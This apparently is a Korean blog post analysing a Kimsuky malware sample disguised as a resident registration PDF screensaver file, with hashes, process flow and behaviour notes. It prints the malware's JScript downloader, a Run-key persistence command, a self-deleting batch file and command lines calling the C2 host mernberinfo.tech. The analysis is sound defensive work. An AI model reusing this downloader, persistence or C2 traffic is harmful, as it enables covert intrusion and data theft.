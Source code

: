 ```yaml
---
layout: post
comments: true
categories: posts
title: 김수키(kimsuky) 조직, 주민등록등본 파일로 둔갑한 악성코드 분석
subtitle: Operation Blue Estimate Part3
author: cainstorm
featured-image: /images/header/header_001.jpg
tags: [malware]
date-string: FEB 07, 2020
---
```

<script src="//ajax.googleapis.com/ajax/libs/jquery/1.9.1/jquery.min.js"></script>
<script>window.jQuery || document.write('<script src="_/js/libs/jquery-1.9.1.min.js"><\/script>')</script>

<h1>Malware Analysis</h1>
### Description
지난 2013년 카스퍼스키랩을 통해 처음 명명된 '김수키(Kimsuky)' 오퍼레이션은 현재까지도 새로운 방식으로 진화를 거듭하며 한국을 타킷으로 한 APT 공격을 지속하고 있다. 김수키 조직은 북한 정부의 지원을 받고 있는 해킹조직으로 알려져 있다.

> Filename : 주민등록등본.pdf(다수 공백 포함).scr
> - MD5 : 20add5eb5fbe527a8b6090a08e7636a6
> - SHA1 : 347d2339fd27606df7b4f659a122c453560a44cb
> - SHA256 : 4942433b92198ed6f4cf5890fd4a7c56f0e6bd79dec3112844a5a25e25425b1b
> - Filesize : 	1.03 MB (1081856 bytes)
> - Detection (Virustotal **46/71**)
>  - ALYac : Trojan.Dropper.1081856K
>  - AhnLab-V3 : Backdoor/Win32.Kimsuky.C3980661

### Analysis
- PDF 문서로 위장된 아이콘을 사용하며, 파일 내부 실제로 보여지는 등본이미지가 포함된 것을 확인할 수 있다.
- 실제 화면보호기(SCR) 확장자를 통해 EXE 실행파일과 동일하게 실햄됨

<center>
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-001.png">
        [그림1] 파일 내부 확인(TIF 이미지 위, DLL 실행파일 아래)
        </div>
</center>
<center>
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-002.jpg">
        [그림2] 악성파일 실행 시 보여지는 주민등록등본 이미지
	</div>
</center><br>

## Process flow

<center>
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-003.JPG">
        [그림3] process flow
	</div>
</center>
<br>
### rundll32.exe
```
cmd /c reg add "hkcu\Software\Microfost\Windows\CurrentVersion\Run" \v "IEAutoUpdate" \f \t REG_SZ \d "C:\Windows\system32\regsvr32.exe /s /n \"C:\Users\username\AppData\Roaming\Microfost\Internet Explorer\AutoUpdate\update.dll\"
```

### cmd.exe
```
cmd \c C:\Users\username\AppData\Local|Temp\rns.bat"
```

### cmd.exe
```
cmd /c wscript.exe "C:\Users\username\AppData\Local\Temp\EEB7.tmp.JS"
"http://mernberinfo.tech/wp-data/?m=hitomi&p=02004c4f4f50"
"C:\Users\username\AppData\Roaming\Microfost\Internet Explorer\AutoUpdate\Database\02004c4f4f50_2020-02-07_14-14-48-518"
"(null)" "(null)"
```

### wscript.exe
```
wscript.exe "C:\Users\username\AppData\Local\Temp\EEB7.tmp.JS"
"http://mernberinfo.tech/wp-data/?m=dunan&p=02004c4f4f50&v=win6.1.0-sp1-x64"
"(null)""(null)""(null)" 
```
<center>
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-004.PNG"><br>
        [그림4] wscript.exe 프로세스 command line 확인
	</div>
</center><br>

## 추가 파일 생성
 - 파일명 : rns.bat
 - path : C:\Users\username\AppData\Local\Temp\rns.bat
<br>
```
:Repeat1
del "C:\Users\username\Desktop\주민등록등본.pdf(다수 공백 포함).scr"
if exist "C:\Users\username\Desktop\주민등록등본.pdf(다수 공백 포함).scr" goto Repeat1
del "C:\Users\username\AppData\Local\Temp\rns.bat"
```
<br>
 - 파일명 : EEB7.tmp.JS
 - path : C:\Users\username\AppData\Local\Temp\EEB7.tmp.JS
<br>
```
fso=WScript.CreatObject("Scripting.FileSystemObject");
function func_download(uri,local_path) {
	rq=new ActiveXObject("MSXML2.ServerXMLHTTP");
    rq.open("get",uri,false);
    rq.send();
    if(rq.status==200) {
    	local_path_tmp=local_path+".tmp";
        if(fso.FileExists(local_path_tmp)) fso.DeleteFile(local_path_tmp);
        sl=new ActiveXObject('ADODB.Stream');
        sl.Open();
        sl.Type=1;
        sl.Write(rq.responseBody);
        sl.Position=0;
        sl.SaveToFile(local_path_tmp);
        sl.Close();
        if(fso.FileExists(local_path)) fso.DeleteFile(local_path);
        fso.MoveFile(local_path_tmp,local_path);
        return true;
    }
    return false;
}
try {
	func_download(WScript.Arguments(0), WScript.Arguments(1));
    } catch(e){} finally{
    	fso.DeleteFile(WScript.ScriptFullName);
    }
```

<center>
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-005.PNG">
        [그림5] %temp% 경로 아래 tmp 파일은 C2 Server 의 response 값을 저장
	</div>
</center>
<br>
 - 파일명 : Hero.dll
 - path : C:\Users\username\AppData\Roaming\Microfost\Internet Explorer\AutoUpdate\update.dll 
 - SHA256 : 9e004a659e8cb6236ac56671e4afa4b8fbb6f394807aa3decf6e268e17359ec6

<center>
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-006.PNG"><br>
        [그림6] Hero.dll 실행 코드
	</div>
</center>
<br>
## 시스템 정보 수집
 - network adapter, Hdd, system 정보 수집

<center>
    <div class="photoset-grid-custom" data-layout="22">
		<img src="/images/2020-02-07/2020-02-07-mal-007.PNG">
        <img src="/images/2020-02-07/2020-02-07-mal-008.PNG">
        <img src="/images/2020-02-07/2020-02-07-mal-009.PNG">
        <img src="/images/2020-02-07/2020-02-07-mal-010.PNG">
        [그림7] system 정보 수집 코드
	</div>
</center>
<br>
##네트워크 연결
 - Domain : mernberinfo.tech, IP : 213.190.6.159[US] 로 해당 Host 에 대한 정보 전송 확인
 - 전송 정보 : Mac address, Os version
<br>
<center>
    <div class="photoset-grid-custom" data-layout="2">
        <img src="/images/2020-02-07/2020-02-07-mal-011.PNG">
        <img src="/images/2020-02-07/2020-02-07-mal-012.PNG">
        [그림8] 네트워크 연결을 통한 정보 전송 화면
	</div>
</center>
<br>
## 기타 행위
 - 자동 시작 Registry 등록
 - Path : HKCU\Software\Microfost\Windows\CurrentVersion\Run
 - IEAutoUpdate=C:\Windows\system32\regsvr32.exe /s /n
   "C:\Users\username\AppData\Roamming\Microfost\Internet Explorer\AutoUpdate\update.dll"
<br>
<center>
    <div class="photoset-grid-custom" data-layout="1">
        <img src="/images/2020-02-07/2020-02-07-mal-013.PNG">
        [그림9] Windows 자동 실행 등록
	</div>
</center>
<br>
<script src="/assets/js/jquery.photoset-grid.js"></script>
<script type="text/javascript">
    $('.photoset-grid-custom').photosetGrid({
    // Set the gutter between columns and rows
    gutter: '5px',

    // Wrap the images in links
    highresLinks: true,
      
    // Asign a common rel attribute
    rel: 'print-gallery',
    
    onInit: function(){},
    
    onComplete: function(){
        // Show the grid after it renders
        $('.photoset-grid-custom').attr('style', '');
    }
});
</script>


{% if page.comments %}
<div id="post-disqus" class="container">
{% include disqus.html %}
</div>
{% endif %}
